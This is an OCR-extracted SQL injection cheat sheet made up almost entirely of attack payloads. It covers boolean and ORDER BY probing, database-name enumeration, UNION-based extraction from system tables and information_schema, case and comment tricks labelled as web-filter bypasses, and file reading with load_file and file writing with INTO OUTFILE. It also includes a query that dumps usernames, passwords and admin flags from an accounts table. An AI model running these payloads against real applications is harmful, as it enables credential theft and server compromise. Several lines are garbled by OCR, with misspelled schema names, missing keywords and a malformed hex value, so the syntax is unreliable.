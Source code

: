 **Medium:**

> > 1' and 1=1 | nbsp; True
> > 
> > 1' and 1=0 | False
> > 
> > 1' order by 1 | True
> > 
> > 1' order by 10000 | False
> > 
> > 1 or db_name()=1); |
> > 
> > 1 or db_name(0)=1) | increase the number until the database does not show any errors
> > 
> > 9999' UNION SELECT name,222,'else1' FROM master.syslogin; --

**Complex:**

> > union select 1, 2, 3 %23 | Bypass Web filters |
> > 
> > uNioN+sEleCt+1,2+%23 | Bypass Web filters |
> > 
> > uNioN`/**/`sEleCt`/**/`1,2`/**/`%23 | Bypass Web filters |
> > 
> > UniOn selEct 1,version() /*
> > 
> > UniOn selEct 1,database() /*
> > 
> > UniOn selEct 1,user() /*
> > 
> > UniOn selEct 1,table_name frOm information_schema.tables table_schema = '[database name]' /*
> > 
> > UniOn selEct 1,column_name frOm information_schema.columns table_name = '[table name]' /*
> > 
> > UniOn selEct 1,[column name] frOm [table name] /*
> > 
> > UniOn selEct 1,load_file('file location') /* Reading files:
> > 
> > UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /* Writing files
> > 
> > union select 1, column_name, null, from Infromation_schema .columns where table_name = 0x769166 | hex encoding dbname
> > 
> > ' union select 1, column_name, null, null, null, 5 from Infromation_schema.columns where table_name = 'accounts' |
> > 
> > ' union select username, pass, is_admin from 'accounts' |
> > 
> > ' union select 1, table_name, null, null, null, 5 from Infromation_schema.tables where table_schema = 'owasdb |